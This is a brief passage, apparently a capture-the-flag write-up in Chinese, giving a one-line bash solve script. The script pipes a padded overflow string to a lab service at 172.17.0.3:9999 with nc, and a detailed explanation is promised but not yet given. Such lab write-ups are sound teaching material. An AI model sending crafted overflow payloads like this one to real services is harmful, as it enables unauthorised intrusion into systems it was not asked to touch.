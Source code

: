 解题脚本（`bash`）：

```bash
echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaddddccccbbbbaaaa | nc 172.17.0.3 9999
```

详细解析敬请期待
